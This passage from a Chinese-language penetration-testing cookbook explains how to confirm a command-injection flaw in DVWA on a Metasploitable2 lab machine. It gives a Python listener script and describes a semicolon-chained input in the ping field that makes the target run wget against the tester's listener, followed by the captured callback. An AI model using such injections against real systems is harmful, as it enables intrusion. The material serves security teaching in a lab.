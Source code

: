 为了对目标执行命令注入漏洞测试，你需要拥有运行一个或多个含有命令执行漏洞的 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

此外，这个秘籍也需要使用例如 VIM 或者 Nano 的文本编辑器，将脚本写到文件系统。更多编写脚本的信息请参考第一章的“使用文本编辑器（VIM 或 Nano）”秘籍。

### 操作步骤

通过执行命令，强迫后端系统和 Web 服务器交互，我们就能够验证 Web 应用中的命令注入漏洞。日志可以作为漏洞服务器和它交互的证据。作为替代，可以编写一个自定义脚本来生成一个临时的 Web 服务，它可以监听外部连接，并打印接收到的请求。下面的 Python 代码完成了这件事情：

```py
#!/usr/bin/python
import socket
httprecv = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
httprecv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
httprecv.bind(("0.0.0.0",8000)) 
httprecv.listen(2)

(client, ( ip,sock)) = httprecv.accept()
print "Received connection from : ", ip 
data = client.recv(4096) 
print str(data)

client.close() 
httprecv.close() 
```

一旦执行脚本，我们需要强迫目标服务器和监听服务交互，来确认命令注入漏洞。DWVA 应用拥有`ping`功能，可以用于 ping 一个指定 IP 地址。用户输入直接传递给系统调用，可以修改来执行底层 OS 的任意命令、我们可以通过使用分号来添加多个命令，每个命令依次排列，像这样：

![](img/7-18-1.jpg)

在上面的例子中，输入用于 ping `127.0.0.1`，并且对`http://172.16.36.224:8000`执行`wget`。`wget`请求对应临时的 Python 监听服务。在提交输入后，我们可以通过参考脚本的输入来验证命令执行：

```py
root@KaliLinux:~# ./httprecv.py 
Received connection from :  172.16.36.135 
GET / HTTP/1.0 
User-Agent: Wget/1.10.2 
Accept: */* Host: 172.16.36.224:8000 
Connection: Keep-Alive 
```

### 工作原理

Python 脚本用于确认命令执行漏洞，因为它证明了命令可以通过来自不同系统的注入载荷在目标服务器上执行。载荷输入到服务器的时候，不可能同时执行相似的请求。但是，即使载荷并不是被检测到的流量的真正来源，我们也可以轻易尝试多次来排除错误情况。
